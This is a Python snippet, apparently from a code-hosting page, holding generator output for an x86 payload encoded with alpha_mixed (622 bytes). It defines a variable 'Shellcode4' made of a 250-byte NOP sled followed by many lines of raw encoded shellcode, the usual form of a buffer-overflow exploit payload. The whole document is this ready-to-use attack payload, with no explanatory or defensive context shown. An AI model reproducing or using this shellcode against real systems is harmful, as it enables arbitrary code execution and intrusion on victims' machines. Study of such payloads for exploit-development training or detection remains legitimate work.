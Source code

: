 ```python
#No Arch selected, selecting Arch: x86 from the payload
#Found 1 compatible encoders
#Attempting to encode payload with 1 iterations of x86/alpha_mixed
#x86/alpha_mixed succeeded with size 622 (iteration=0)
#x86/alpha_mixed chosen with final size 622
#Payload size: 622 bytes
#Final size of python file: 3474 bytes

Shellcode4 = "\x90"*250
Shellcode4 += "\x89\xe2\xd9\xe9\xd9\x72\xf4\x5d\x55\x59\x49"
Shellcode4 += "\x49\x49\x49\x49\x49\x49\x49\x49\x49\x43\x43"
Shellcode4 += "\x43\x43\x43\x43\x37\x51\x5a\x6a\x41\x58\x50"
Shellcode4 += "\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42"
Shellcode4 += "\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38"
Shellcode4 += "\x41\x42\x75\x4a\x49\x59\x6c\x58\x68\x6e\x62"
Shellcode4 += "\x55\x50\x75\x50\x35\x50\x33\x50\x4d\x59\x6d"
Shellcode4 += "\x35\x75\x61\x6f\x30\x42\x44\x6e\x6b\x52\x70"
Shellcode4 += "\x46\x50\x4c\x4b\x71\x42\x76\x6c\x6e\x6b\x62"
Shellcode4 += "\x72\x55\x44\x4e\x6b\x30\x72\x57\x58\x56\x6f"
Shellcode4 += "\x78\x37\x43\x7a\x35\x76\x75\x61\x4b\x4f\x4c"
Shellcode4 += "\x6c\x67\x4c\x50\x61\x63\x4c\x56\x62\x76\x4c"
Shellcode4 += "\x35\x70\x5a\x61\x48\x4f\x46\x6d\x63\x31\x49"
Shellcode4 += "\x57\x4b\x52\x48\x72\x52\x72\x36\x37\x4c\x4b"
Shellcode4 += "\x50\x52\x36\x70\x6c\x4b\x50\x4a\x65\x6c\x4c"
Shellcode4 += "\x4b\x32\x6c\x64\x51\x54\x38\x6d\x33\x52\x68"
Shellcode4 += "\x33\x31\x58\x51\x72\x71\x4c\x4b\x52\x79\x55"
Shellcode4 += "\x70\x55\x51\x69\x43\x6e\x6b\x73\x79\x77\x68"
Shellcode4 += "\x49\x73\x55\x6a\x43\x79\x4e\x6b\x54\x74\x6c"
Shellcode4 += "\x4b\x43\x31\x58\x56\x45\x61\x4b\x4f\x4e\x4c"
Shellcode4 += "\x39\x51\x4a\x6f\x44\x4d\x45\x51\x4f\x37\x57"
Shellcode4 += "\x48\x69\x70\x52\x55\x6a\x56\x54\x43\x71\x6d"
Shellcode4 += "\x79\x68\x57\x4b\x63\x4d\x36\x44\x50\x75\x59"
Shellcode4 += "\x74\x46\x38\x4e\x6b\x66\x38\x67\x54\x33\x31"
Shellcode4 += "\x49\x43\x52\x46\x4e\x6b\x66\x6c\x32\x6b\x6e"
Shellcode4 += "\x6b\x62\x78\x45\x4c\x36\x61\x48\x53\x6c\x4b"
Shellcode4 += "\x33\x34\x6c\x4b\x75\x51\x48\x50\x4c\x49\x33"
Shellcode4 += "\x74\x65\x74\x65\x74\x63\x6b\x71\x4b\x73\x51"
Shellcode4 += "\x66\x39\x33\x6a\x52\x71\x6b\x4f\x6d\x30\x61"
Shellcode4 += "\x4f\x61\x4f\x32\x7a\x6c\x4b\x44\x52\x58\x6b"
Shellcode4 += "\x6e\x6d\x53\x6d\x70\x6a\x75\x51\x4e\x6d\x6d"
Shellcode4 += "\x55\x6f\x42\x67\x70\x73\x30\x57\x70\x36\x30"
Shellcode4 += "\x62\x48\x36\x51\x6c\x4b\x42\x4f\x6f\x77\x69"
Shellcode4 += "\x6f\x68\x55\x4f\x4b\x4c\x30\x6c\x75\x79\x32"
Shellcode4 += "\x52\x76\x45\x38\x69\x36\x4a\x35\x6f\x4d\x6f"
Shellcode4 += "\x6d\x4b\x4f\x68\x55\x45\x6c\x43\x36\x61\x6c"
Shellcode4 += "\x57\x7a\x6f\x70\x79\x6b\x6d\x30\x42\x55\x73"
Shellcode4 += "\x35\x4f\x4b\x72\x67\x55\x43\x54\x32\x50\x6f"
Shellcode4 += "\x53\x5a\x37\x70\x71\x43\x4b\x4f\x59\x45\x52"
Shellcode4 += "\x43\x62\x4d\x65\x34\x44\x6e\x31\x75\x30\x78"
Shellcode4 += "\x51\x75\x37\x50\x74\x6f\x63\x53\x47\x50\x62"
Shellcode4 += "\x4e\x70\x65\x54\x34\x57\x50\x53\x45\x31\x63"
Shellcode4 += "\x52\x45\x61\x62\x45\x70\x51\x79\x70\x68\x70"
Shellcode4 += "\x61\x53\x53\x50\x6b\x30\x6c\x35\x31\x43\x52"
Shellcode4 += "\x50\x73\x35\x70\x70\x4d\x32\x45\x53\x44\x53"
Shellcode4 += "\x51\x43\x43\x70\x70\x62\x4c\x72\x4f\x62\x49"
Shellcode4 += "\x63\x44\x31\x34\x65\x61\x65\x70\x76\x4f\x61"
Shellcode4 += "\x51\x71\x54\x30\x44\x71\x30\x34\x66\x45\x76"
Shellcode4 += "\x57\x50\x52\x4e\x63\x55\x31\x64\x67\x50\x30"
Shellcode4 += "\x6c\x52\x4f\x73\x53\x31\x71\x30\x6c\x62\x47"
Shellcode4 += "\x61\x62\x42\x4f\x30\x75\x44\x30\x47\x50\x51"
Shellcode4 += "\x51\x50\x64\x72\x4d\x30\x69\x72\x4e\x42\x49"
Shellcode4 += "\x61\x63\x32\x54\x71\x62\x63\x51\x72\x54\x70"
Shellcode4 += "\x6f\x71\x62\x44\x33\x75\x70\x63\x59\x71\x78"
```